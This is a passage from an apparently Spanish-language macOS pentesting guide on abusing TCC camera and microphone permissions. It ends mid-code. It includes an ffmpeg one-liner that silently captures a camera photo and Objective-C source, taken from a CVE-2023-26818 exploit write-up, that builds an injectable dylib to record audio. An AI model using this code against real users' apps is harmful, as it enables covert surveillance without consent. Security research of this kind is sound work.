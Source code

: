 {% tab title="Shell" %}
Tomar una foto con la cámara
```bash
ffmpeg -framerate 30 -f avfoundation -i "0" -frames:v 1 /tmp/capture.jpg
```
### Micrófono

* **Entitlement**: **com.apple.security.device.audio-input**
* **TCC**: `kTCCServiceMicrophone`

{% tabs %}
{% tab title="ObjetiveC - Grabar" %}
Grabar 5 segundos de audio y almacenarlo en `/tmp/recording.m4a`
```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// Code from https://www.vicarius.io/vsociety/posts/cve-2023-26818-exploit-macos-tcc-bypass-w-telegram-part-1-2
// gcc -dynamiclib -framework Foundation -framework AVFoundation Micexploit.m -o Micexploit.dylib

@interface AudioRecorder : NSObject <AVCaptureFileOutputRecordingDelegate>

@property (strong, nonatomic) AVCaptureSession *captureSession;
@property (strong, nonatomic) AVCaptureDeviceInput *audioDeviceInput;
@property (strong, nonatomic) AVCaptureMovieFileOutput *audioFileOutput;

- (void)startRecording;
- (void)stopRecording;

@end

@implementation AudioRecorder

- (instancetype)init {
self = [super init];
if (self) {
[self setupCaptureSession];
}
return self;
}

- (void)setupCaptureSession {
self.captureSession = [[AVCaptureSession alloc] init];
self.captureSession.sessionPreset = AVCaptureSessionPresetHigh;

AVCaptureDevice *audioDevice = [AVCaptureDevice defaultDeviceWithMediaType:AVMediaTypeAudio];
NSError *error;
self.audioDeviceInput = [[AVCaptureDeviceInput alloc] initWithDevice:audioDevice error:&error];

if (error) {
NSLog(@"Error setting up audio device input: %@", [error localizedDescription]);
return;
}

if ([self.captureSession canAddInput:self.audioDeviceInput]) {
[self.captureSession addInput:self.audioDeviceInput];
}

self.audioFileOutput = [[AVCaptureMovieFileOutput alloc] init];

if ([self.captureSession canAddOutput:self.audioFileOutput]) {
[self.captureSession addOutput:self.audioFileOutput];
}
```